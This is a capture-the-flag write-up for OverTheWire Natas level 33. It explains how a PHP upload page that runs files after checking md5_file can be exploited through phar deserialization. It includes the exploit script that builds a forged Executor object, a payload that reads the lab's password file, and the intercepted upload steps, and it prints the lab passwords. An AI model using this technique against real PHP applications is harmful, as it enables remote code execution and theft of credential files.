






# Level 33

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas33.natas.labs.overthewire.org](http://natas33.natas.labs.overthewire.org)
- username: `natas33`
- password: `APwWDD3fRAf6226sgBOBaSptGwvXwQhG`

## Solution



Let's see the sourcecode:

```php
<?php
    // graz XeR, the first to solve it! thanks for the feedback!
    // ~morla
    class Executor{
        private $filename=""; 
        private $signature='adeafbadbabec0dedabada55ba55d00d';
        private $init=False;

        function __construct(){
            $this->filename=$_POST["filename"];
            if(filesize($_FILES['uploadedfile']['tmp_name']) > 4096) {
                echo "File is too big<br>";
            }
            else {
                if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], "/natas33/upload/" . $this->filename)) {
                    echo "The update has been uploaded to: /natas33/upload/$this->filename<br>";
                    echo "Firmware upgrad initialised.<br>";
                }
                else{
                    echo "There was an error uploading the file, please try again!<br>";
                }
            }
        }

        function __destruct(){
            // upgrade firmware at the end of this script

            // "The working directory in the script shutdown phase can be different with some SAPIs (e.g. Apache)."
            chdir("/natas33/upload/");
            if(md5_file($this->filename) == $this->signature){
                echo "Congratulations! Running firmware update: $this->filename <br>";
                passthru("php " . $this->filename);
            }
            else{
                echo "Failur! MD5sum mismatch!<br>";
            }
        }
    }
?>
```

So if our file `MD5` signature matches `adeafbadbabec0dedabada55ba55d00d`, our `PHP` code will be executed, but it's almost impossible, so by googling `php md5_file() vulnerabilities` I found [this](https://www.sonarsource.com/blog/new-php-exploitation-technique/) page and [this](https://www.slideshare.net/ripstech/new-php-exploitation-techniques#25).

And we can see that our `md5_file()` is indeed vulnerable:



Here is the exploitation script on [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization). We just need to make slightly modifications. First create this `phar.php` file:

```php
<?php

class Executor{
    private $filename="pwned.php"; # name of our file
    private $signature=True; # so md5_file($this->filename) == $this->signature will be true
    private $init=False;
}

// create new Phar
$phar = new Phar('natas33.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("<?php __HALT_COMPILER(); ?>");

// add object of Executor class as meta data
$object = new Executor();
$object->data = "pwned";
$phar->setMetadata($object);
$phar->stopBuffering();

?>
``` 

Then we need to create our `pwned.php` file to read the password:

```php
<?php echo file_get_contents("/etc/natas_webpass/natas34"); ?>
```

Then compile our `phar.php`:

```sh
$ php --define phar.readonly=0 phar.php
```

This will give us `natas33.phar` file. Now we need to upload it with our `pwned.php` and by intercepting them with Burp, change their names:





So they will be shown as:



Lastly we need to call `natas33.phar` with `phar` protocol instead of giving it a filename:



## Password

`natas34`:`F6Fcmavn8FgZgrAPOvoLudNr1GwQTaNG`

*Created by [bu19akov](https://github.com/bu19akov)*